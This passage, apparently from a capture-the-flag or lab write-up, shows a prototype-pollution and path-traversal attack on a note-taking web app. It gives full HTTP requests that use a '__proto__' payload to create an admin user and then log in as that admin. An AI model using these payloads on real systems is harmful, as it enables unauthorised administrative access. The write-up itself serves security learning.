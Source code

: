 ```jsx
      });
    }
    else {
      return res.status(401).json({ message: 'No Admin User is created!!!' });
    }
  }
};
```

In javascript, the arguments in `Object.assign()` is given in wrong order and also there is no any checking via assign the variable `user` into `req.body`.

```jsx
PUT /update-user-note/..$'..$'admin$'create-admin-user%3F_method=POSt& HTTP/1.1
Host: noteapp.icsd:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 86
Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI1ZWI5M2I5OS02NzJhLTQ1ZGItYTBhNS1mYjk0OTJlNWRjNTUiLCJpYXQiOjE2OTYyNzMwNzQsImV4cCI6MTY5NjI3NDg3NH0.a2Gk3S4ppWkiOJk9lIwGjqLyBPaPtdv_S0L0sKINTSo

{
"username": "admin",
"password":"adminadmin",
"__proto__": { "isAdmin":true
}
}
```

![https://i.ibb.co/4T2Gdvm/Prototype-pollution-exploit.png](https://i.ibb.co/4T2Gdvm/Prototype-pollution-exploit.png)

Let’s login as newly created admin user.

```jsx
PUT /update-user-note/..$'..$'admin$'login-as-admin%3F_method=POST& HTTP/1.1
Host: noteapp.icsd:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 49
Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI1ZWI5M2I5OS02NzJhLTQ1ZGItYTBhNS1mYjk0OTJlNWRjNTUiLCJpYXQiOjE2OTYyNzMwNzQsImV4cCI6MTY5NjI3NDg3NH0.a2Gk3S4ppWkiOJk9lIwGjqLyBPaPtdv_S0L0sKINTSo

{
"username": "admin",
"password":"adminadmin"}
```
